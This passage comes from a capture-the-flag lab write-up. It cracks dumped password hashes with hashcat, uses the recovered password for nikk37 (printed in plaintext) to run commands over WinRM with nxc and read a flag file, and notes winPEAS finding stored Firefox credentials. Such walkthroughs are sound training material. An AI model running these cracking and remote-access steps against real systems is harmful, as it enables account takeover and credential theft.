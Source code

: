 Tidying up the credentials format and passing them to `hashcat` we get back `nikk37`'s password. We know from before (Figure 32), that this user has the `CanPSRemote` permission, so let's confirm that and grab the `user.txt` flag 🚩 (Figure 34).

{% code overflow="wrap" %}
```bash
# Tidying up the format for hashcat
cat backup_users | awk '{print $1":"$2}' > bk_users
# Cracking hashes
hashcat -m0 bk_users /usr/share/wordlists/rockyou --username
# Showing results
hashcat -m0 bk_users /usr/share/wordlists/rockyou --username --show
# Writing nikk37's password to a file
echo 'get_dem_girls2@yahoo.com' > nikk37_pass
# Confirming WinRM access
nxc winrm 10.10.11.158 -u nikk37 -p nikk37_pass
# Reading the user flag
nxc winrm 10.10.11.158 -u nikk37 -p nikk37_pass -x 'gc c:\users\nikk37\desktop\user.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/streamio_nikk37.png" alt=""><figcaption><p>Figure 34: Cracking <code>nikk37</code>'s password and reading the <code>user.txt</code> flag.</p></figcaption></figure>

## Privilege Escalation

### System Enumeration

Using `nikk37`'s account to enumerate the SMB server, does not produce anything interesting; only the default shares are there. We have already enumerated the whole DMBS as well as ran winPEAS on the target. One thing that the latter came back with was some Firebox credentials which we could not access before, but we do now (Figure 35).

<figure><img src="../../.gitbook/assets/streamio_winpeas.png" alt=""><figcaption><p>Figure 35: winPEAS highlighting Firefox credentials for <code>nikk37</code>.</p></figcaption></figure>
